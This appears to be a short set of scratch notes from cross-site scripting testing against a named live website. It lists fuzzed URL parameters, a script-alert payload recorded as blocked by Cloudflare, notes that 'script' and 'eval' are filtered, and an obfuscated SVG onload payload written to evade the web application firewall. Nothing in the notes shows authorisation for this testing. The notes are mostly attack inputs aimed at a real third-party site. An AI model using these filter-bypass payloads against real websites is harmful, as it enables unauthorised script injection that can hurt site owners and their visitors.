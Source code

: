
https://davelbostoncoach.com/?ref=
https://davelbostoncoach.com/?afjstz=FUZZ&jot_xtok=FUZZ

`"'><script>alert('XSS')</script>` cloudflare block


script blocked
eval blocked

```
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1// 
``` 

high rated not working

